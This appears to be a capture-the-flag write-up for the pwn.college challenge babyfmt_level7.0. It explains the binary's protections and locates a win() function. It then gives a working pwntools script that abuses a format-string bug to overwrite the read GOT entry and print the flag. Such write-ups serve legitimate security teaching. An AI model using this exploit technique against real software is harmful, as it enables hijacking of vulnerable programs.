


# Format String Attack - Redirect Code Execution (GOT Overwrite)

The difference in this post than previous posts, the target always given by challenge.
This time the target is not obviously given by challenge.

Also previous posts, avoided debugging as possible as can.
So what that meant by **Redirect Code Execution**, below you can find out.


Digging the challenge binary.

## babyfmt_level7.0

So the challenge explains pretty well the situation. The target is not obvious but one thing really helpful. 

Challenge keeps letting infinite input chance for playing with the memory with format string vulnerability.

If you want to understand more deeply and making further analysis, always you can use **pwn.college**'s challenge platfrom. Playform gives plenty of tools and ui. 

```perl
root@9d3ae0bf39ad:/host# ./babyfmt_level7.0
###
### Welcome to ./babyfmt_level7.0!
###

In this challenge, you will be performing attack against the old and famous vulnerability:
"format string vulnerability". This challenge reads in some bytes and print the
input as the format using `printf` in different ways(depending on the specific challenge
configuration). Different challenges have different protections on. ROP may be needed in
some challenges. Have fun!
To ensure that you are ROPing, rather than doing other tricks, this
will sanitize all environment variables and arguments and close all file
descriptors > 2,

In this challenge, you can perform format string attack for infinite times
You can use the the attack to leak information and prepare your payload
After your payload is ready, send "END" to exit from the while loop
And hopefully your payload can be triggered :)

You can use `checksec` command to check the protection of the binary.

Now, the program is waiting for your input.
If your input contains "END", the program exits from the while loop before triggering the vulnerability:
asd
Show me what you got :P
asd

Now, the program is waiting for your input.
If your input contains "END", the program exits from the while loop before triggering the vulnerability:
asd
Show me what you got :P
asd

Now, the program is waiting for your input.
If your input contains "END", the program exits from the while loop before triggering the vulnerability:
END
### Goodbye!
```

#### **Arch: amd64-64-little**

- The binary is **64-bit**, little-endian (Intel/AMD convention).
    
- So arguments, pointers, and addresses are 8 bytes wide.

---
#### **RELRO: Partial RELRO**

- **RELRO** = _Relocation Read-Only_.
    
- Makes certain ELF sections (like the Global Offset Table) read-only after relocation, to stop some GOT overwrite attacks.
    
- **Partial** means:
    
    - GOT is still writable → an attacker might overwrite GOT entries (e.g. function pointers).
        
    - Only the Global Offset Table’s _procedure linkage table resolver_ is protected.
        
- **Full RELRO** would lock the entire GOT.

---
#### **Stack: Canary found**

- Compiler inserted a **stack canary value** (random guard) before saved return addresses.
    
- If a buffer overflow overwrites the return address, the canary also changes.
    
- On function return, runtime checks if the canary is intact:
    
    - If not, program aborts with stack smashing detected.
        
- Protects against **stack buffer overflows → return address overwrite**.

---
#### **NX: NX enabled**

- **Non-Executable stack** (also called DEP / Data Execution Prevention).
    
- Memory pages for stack/heap are **not executable**.
    
- Stops the classic “shellcode on stack” technique.
    
- Attacker can’t just inject code and jump there.
    
- Forces exploitation toward techniques like ROP (Return-Oriented Programming) or format string `%n`-based writes.

---
#### **PIE: No PIE (0x400000)**

- **PIE** = Position Independent Executable.
    
- **No PIE** means binary is mapped at a **fixed base address** (here `0x400000`).
    
- Function/code offsets are predictable → makes ROP and format string targeting easier.
    
- With PIE enabled, the binary is loaded at random base addresses each run (ASLR applies fully).

---
#### **SHSTK: Enabled**

- **Shadow Stack** (x86 Control-flow Enforcement Technology, CET).
    
- CPU feature: keeps a protected copy of return addresses in a separate “shadow stack”.
    
- On function return, CPU verifies return address matches shadow copy.
    
- Prevents return address overwrites (ROP).
    
- Hardware-enforced, harder to bypass.

---
#### **IBT: Enabled**

- **Indirect Branch Tracking** (another CET feature).
    
- Ensures indirect jumps/calls only land on valid, marked instructions.
    
- Blocks control-flow hijacks that jump into the middle of gadgets (ROP/JOP).
    
- Makes code-reuse attacks much harder.

---
#### **Stripped: No**

- Binary still has **symbols** (function names, debug info).
    
- Easier to reverse engineer, since function names aren’t removed.
    
- In a real hardened release, binaries are usually stripped.

---

**Binary has the protections in summary:**

- **Partial RELRO** → GOT partly protected.
- **Stack Canary** → detects stack smashing.
- **NX (DEP)** → prevents code execution from stack/heap.
- **No PIE** → base address fixed, gadgets predictable.
- **SHSTK** → hardware shadow stack, blocks return overwrite.
- **IBT** → indirect branch tracking, restricts jumps/calls.

```perl
root@9d3ae0bf39ad:/host# checksec ./babyfmt_level7.0
[*] '/host/babyfmt_level7.0'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Since binary is not stripped. So can look for symbols.

### Looking to symbols

The redirect address found in the symbols. **win** function is not standard function and if you are familiar basic CTF challenges. This name commonly used by challenge creators.

`readelf -s ./babyfmt_level7.0`

```rust
    64: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND close@@GLIBC_2.2.5
    65: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND read@@GLIBC_2.2.5
    66: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_mai[...]
    67: 0000000000404090     0 NOTYPE  GLOBAL DEFAULT   25 __data_start
    68: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    69: 0000000000404098     0 OBJECT  GLOBAL HIDDEN    25 __dso_handle
    70: 0000000000402000     4 OBJECT  GLOBAL DEFAULT   17 _IO_stdin_used
    71: 00000000004014f9    71 FUNC    GLOBAL DEFAULT   15 init
    72: 00000000004012f6   515 FUNC    GLOBAL DEFAULT   15 DUMP_STACK
    73: 000000000040158a   391 FUNC    GLOBAL DEFAULT   15 func
    74: 00000000004018c0   101 FUNC    GLOBAL DEFAULT   15 __libc_csu_init
    75: 00000000004040f0     8 OBJECT  GLOBAL DEFAULT   26 sz_
    76: 0000000000401540    74 FUNC    GLOBAL DEFAULT   15 win -------> THE REDIRECT FOUND!
    77: 00000000004040f8     8 OBJECT  GLOBAL DEFAULT   26 rp_
    78: 0000000000404108     0 NOTYPE  GLOBAL DEFAULT   26 _end
    79: 0000000000401240     5 FUNC    GLOBAL HIDDEN    15 _dl_relocate_sta[...]
    80: 0000000000401210    47 FUNC    GLOBAL DEFAULT   15 _start
    81: 0000000000404100     8 OBJECT  GLOBAL DEFAULT   26 sp_
    82: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND sendfile@@GLIBC_2.2.5
    83: 00000000004040a0     0 NOTYPE  GLOBAL DEFAULT   26 __bss_start
    84: 0000000000401711   425 FUNC    GLOBAL DEFAULT   15 main
    85: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND setvbuf@@GLIBC_2.2.5
    86: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND open@@GLIBC_2.2.5
    87: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND exit@@GLIBC_2.2.5
    88: 00000000004040a0     0 OBJECT  GLOBAL HIDDEN    25 __TMC_END__
    89: 0000000000401000     0 FUNC    GLOBAL HIDDEN    12 _init
```

Looking what is doing the **win** function.
Basically its reading the flag, and shows with **sendfile** func.

```perl
pwndbg> disas win
Dump of assembler code for function win:
   0x0000000000401540 <+0>:     endbr64
   0x0000000000401544 <+4>:     push   rbp
   0x0000000000401545 <+5>:     mov    rbp,rsp
   0x0000000000401548 <+8>:     lea    rdi,[rip+0xba1]        # 0x4020f0
   0x000000000040154f <+15>:    call   0x401130 <puts@plt>
   0x0000000000401554 <+20>:    mov    esi,0x0
   0x0000000000401559 <+25>:    lea    rdi,[rip+0xbac]        # 0x40210c
   0x0000000000401560 <+32>:    mov    eax,0x0
   0x0000000000401565 <+37>:    call   0x4011e0 <open@plt>
   0x000000000040156a <+42>:    mov    ecx,0x400
   0x000000000040156f <+47>:    mov    edx,0x0
   0x0000000000401574 <+52>:    mov    esi,eax
   0x0000000000401576 <+54>:    mov    edi,0x1
   0x000000000040157b <+59>:    call   0x4011c0 <sendfile@plt>
   0x0000000000401580 <+64>:    mov    edi,0x0
   0x0000000000401585 <+69>:    call   0x4011f0 <exit@plt>
End of assembler dump.
pwndbg> x/s 0x4020f0
0x4020f0:       "You win! Here is your flag:"
pwndbg> x/s 0x40210c
0x40210c:       "/flag"
```


### Choosing the target

Since the **RELRO** proction is partial. That means **Global Offset Table (GOT)** writeable.
After openning binary with **pwngdb/gef** stop anywhere you want, check the **got**. As seen below **GOT** lies in writeable memory area and there plenty of targets waiting for manipulation.

I will not deep dive into the how **GOT** take key roles for the function calling convention in this post. But dedicated detailed explanation will be written later. Basic diagram like this.

```pgsql
`call printf -> follows printf@plt -> follows printf@got.plt(GOT entry of printf)`
	
	if dynamic resolver (**_dl_runtime_resolve_XXX**) (depends on libc) didn't resolve before jmps _dl_runtime_resolve_XXX
	if already resolved before, the printf GOT entry stores glibc address of __printf.
```

Also depends of **LIBC** version there are other targets like, 
* Messing with glibc File Structures
* Messing with glibc handlers and linker

can be added plenty of other targets. Even if wanted, heap can be targeted.

So keeping things to simple, now the obvious target is **GOT Entries**.

```perl
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /host/babyfmt_level7.0:
GOT protection: Partial RELRO | Found 15 GOT entries passing the filter
[0x404018] putchar@GLIBC_2.2.5 -> 0x401030 ◂— endbr64 
[0x404020] puts@GLIBC_2.2.5 -> 0x401040 ◂— endbr64 
[0x404028] strlen@GLIBC_2.2.5 -> 0x401050 ◂— endbr64 
[0x404030] __stack_chk_fail@GLIBC_2.4 -> 0x401060 ◂— endbr64 
[0x404038] setbuf@GLIBC_2.2.5 -> 0x401070 ◂— endbr64 
[0x404040] printf@GLIBC_2.2.5 -> 0x401080 ◂— endbr64 
[0x404048] __assert_fail@GLIBC_2.2.5 -> 0x401090 ◂— endbr64 
[0x404050] memset@GLIBC_2.2.5 -> 0x4010a0 ◂— endbr64 
[0x404058] close@GLIBC_2.2.5 -> 0x4010b0 ◂— endbr64 
[0x404060] read@GLIBC_2.2.5 -> 0x4010c0 ◂— endbr64 
[0x404068] sendfile@GLIBC_2.2.5 -> 0x4010d0 ◂— endbr64 
[0x404070] setvbuf@GLIBC_2.2.5 -> 0x4010e0 ◂— endbr64 
[0x404078] open@GLIBC_2.2.5 -> 0x4010f0 ◂— endbr64 
[0x404080] exit@GLIBC_2.2.5 -> 0x401100 ◂— endbr64 
[0x404088] strstr@GLIBC_2.2.5 -> 0x401110 ◂— endbr64 
pwndbg> xinfo 0x404000
Extended information for virtual address 0x404000:

  Containing mapping:
          0x404000           0x405000 rw-p     1000    3000 babyfmt_level7.0

  Offset information:
         Mapped Area 0x404000 = 0x404000 + 0x0
         File (Base) 0x404000 = 0x400000 + 0x4000
      File (Segment) 0x404000 = 0x403e08 + 0x1f8
         File (Disk) 0x404000 = /host/babyfmt_level7.0 + 0x3000

 Containing ELF sections:
            .got.plt 0x404000 = 0x404000 + 0x0
```

The red lines highlighting the process of infinite loop. If user input has **END** string, loop breaks, which highlighted with green lines. 




Sometimes disassemblers could fail to disassemble/pseudo code generation. So  rechecking with the different disassemblers or with debugger not hurt.

Here is how **radare2** is shows the logic with visual view.



So what can be done, there are plenty of calls inside while loop. Possible targets could be **memset, puts, read or direct printf itself** even **__stack_chk_fail** itself if you want to mess with the canary value. Choose which one you like.


### find offset and padlen values

I'm so lazy, so the END keyword cause the problem with pwntools. So i edited fmtstr.py in my docker with END to ENT in **FmtStr.leak_stack** method.

In my docker environment the file located at: `/usr/local/lib/python3.12/dist-packages/pwnlib/fmtstr.py`

```perl
[*] Found format string offset: 10
[+] User input starts at  : 10
[+] Needed pads           :0
[+] Numbwritten           :0
```

### get_flag.py

It's not necessary but i downloaded the **GLIBC** file. From this point i always include the libc files same as pwn.college environment.

As a target choosen **read** . If you look again the **win** function inside, **puts, open, sendfile and exit** functions calling. So i don't wanna mess up with them. **read** is simple. After calling **win** the program exiting directly already. 

```pgsql
call read → read@plt → jmp [read@got]
                      ↳ we overwrite read@got = &win
Next call to read() → indirect jmp lands at win (preferably start with endbr64)
→ win prints flag & exits
```

Keep things simple as before, for the write operation choosed **FmtStr** from pwntools <3.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--libc=libc.so.6' ./babyfmt_level7.0
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './babyfmt_level7.0')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
#tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

def send_fmt(payload):
    io.sendafter(b'triggering the vulnerability:\n', payload)

io = start()

offset = 10
padlen = 0

f = FmtStr(send_fmt, offset=offset, padlen=padlen, numbwritten=0)
f.write(exe.got['read'], exe.sym.win)
f.execute_writes()

io.interactive()
```

**The result:**

```perl
[+] Starting local process '/host/babyfmt_level7.0_remotelibc': pid 451
[*] Switching to interactive mode
[*] Process '/host/babyfmt_level7.0_remotelibc' stopped with exit code 0 (pid 451)
Show me what you got :P
You win! Here is your flag:
pwn.college{kvX************************************EzW}
[*] Got EOF while reading in interactive
```


## References

Official glibc manual on formatted output, including dynamic width/precision.  
[https://www.gnu.org/software/libc/manual/html_node/Formatted-Output.html](https://www.gnu.org/software/libc/manual/html_node/Formatted-Output.html)

POSIX `printf(3)` man page covering `%n`, `%m$`, and `*`.  
[https://man7.org/linux/man-pages/man3/printf.3.html](https://man7.org/linux/man-pages/man3/printf.3.html)

Open Group specification for `fprintf`, detailing positional arguments.  
[https://pubs.opengroup.org/onlinepubs/9699919799/functions/fprintf.html](https://pubs.opengroup.org/onlinepubs/9699919799/functions/fprintf.html)

CERT C secure coding rule FIO30-C on excluding user input from format strings.  
[https://wiki.sei.cmu.edu/confluence/display/c/FIO30-C.%2BExclude%2Buser%2Binput%2Bfrom%2Bformat%2Bstrings](https://wiki.sei.cmu.edu/confluence/display/c/FIO30-C.%2BExclude%2Buser%2Binput%2Bfrom%2Bformat%2Bstrings)

MITRE CWE-134 entry for externally-controlled format string vulnerabilities.  
[https://cwe.mitre.org/data/definitions/134.html](https://cwe.mitre.org/data/definitions/134.html)

Pwntools documentation for `FmtStr` helper and format string exploitation.  
[https://docs.pwntools.com/en/stable/fmtstr.html](https://docs.pwntools.com/en/stable/fmtstr.html)

Pwntools source code showing `fmtstr_payload` implementation.  
[https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/fmtstr.py#L1027](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/fmtstr.py#L1027)

Exploit Education lab on format string vulnerabilities (hands-on practice).  
[https://exploit.education/phoenix/format-string/](https://exploit.education/phoenix/format-string/)

CTF 101 primer on what format string vulnerabilities are and how they work.  
[https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)

pwn.college educational track on format string exploitation.  
[https://pwn.college/software-exploitation/format-string-exploits](https://pwn.college/software-exploitation/format-string-exploits)

Classic paper *Exploiting Format String Vulnerabilities* by scut/Team TESO.  
[https://cs155.stanford.edu/papers/formatstring-1.2.pdf](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

OWASP wiki entry on format string attacks.  
[https://owasp.org/www-community/attacks/Format_string_attack](https://owasp.org/www-community/attacks/Format_string_attack)

LiveOverflow video introducing format string basics in CTFs.  
[https://www.youtube.com/watch?v=0WvrSfcdq1I](https://www.youtube.com/watch?v=0WvrSfcdq1I)


---
title: Format String Attack - Redirect Code Execution (GOT Overwrite)
summary: Exploit write-up for babyfmt_level7.0 using a format string vulnerability to overwrite a GOT entry and redirect execution to win().
date: 2025-08-20
categories:
  - Pwn
  - Format String Vulnerabilities
  - CTF
tags:
  - binary-exploitation
  - printf
  - got-overwrite
  - nx
  - relro
authors:
  - İsmail BOZKURT
---
